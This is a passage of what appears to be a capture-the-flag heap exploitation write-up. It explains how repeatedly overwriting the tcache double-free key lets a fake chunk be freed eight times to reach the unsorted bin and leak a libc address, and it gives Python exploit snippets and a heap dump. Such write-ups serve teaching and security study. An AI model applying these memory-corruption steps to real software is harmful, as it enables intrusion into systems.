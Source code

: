 
#### Get Unsorted Bin

What this allows me to do is free fake2, then use B to change the key, and
then free it again. I’ll free it eight times in total, the first seven going
into tcache, and the last going into unsorted bins, which leaves the double-
linked list pointers on the heap. I’ll also need to make sure that 0xa0 bytes
after A meta is a valid looking meta, and that’s why I when I created E, I
sprayed lots of 0x21s in.

    
    
    # free fake to fill tcache, then overwrite key protecting from double free
    for i in range(7):
        edit('fake2', 0x0)    # free fake block, put 3e0 in 0xa0 tcache
        edit('B', 0x70, p64(0)*5 + p64(0xa1) + p64(0) + chr(i).encode()) # B
    
    rm('B') # B
    rm('fake2')
    

Now two files are open, and there’s a libc address on the stack:

    
    
    -----------------------------------
    [0x0000000000000000]         : (null)
    [0x0000000000000000]         : (null)
    -----------------------------------
    0x55555555c3a0: 0x0000000000000000      0x0000000000000081
    0x55555555c3b0: 0x0000000000000000      0x000055555555c010
    0x55555555c3c0: 0x0000000000000000      0x0000000000000000
    0x55555555c3d0: 0x0000000000000000      0x00000000000000a1
    0x55555555c3e0: 0x00007ffff7fc3ca0      0x00007ffff7fc3ca0  <-- libc meta
    0x55555555c3f0: 0x0000000000000000      0x0000000000000000
    0x55555555c400: 0x0000000000000000      0x0000000000000000
    0x55555555c410: 0x0000000000000000      0x0000000000000000
    0x55555555c420: 0x0000000000000000      0x0000000000000031
    -----------------------------------
                      top: 0x55555555c490 (size : 0x20b70) 
           last_remainder: 0x0 (size : 0x0) 
                unsortbin: 0x55555555c3d0 (overlap chunk with 0x55555555c420(freed) )
    (0x20)   tcache_entry[0](1): 0x55555555c2e0
    (0x30)   tcache_entry[1](3): 0x55555555c430 --> 0x55555555c430 (overlap chunk with 0x55555555c420(freed) )
    (0x40)   tcache_entry[2](2): 0x55555555c460 --> 0x55555555c300
    (0x50)   tcache_entry[3](1): 0x55555555c2b0 (overlap chunk with 0x55555555c2d0(freed) )
    (0x60)   tcache_entry[4](1): 0x55555555c290 (overlap chunk with 0x55555555c2d0(freed) )
    (0x80)   tcache_entry[6](1): 0x55555555c3b0
    (0xa0)   tcache_entry[8](7): 0x55555555c3e0 (overlap chunk with 0x55555555c420(freed) )  <-- actually 7 in there, but only shows once
    

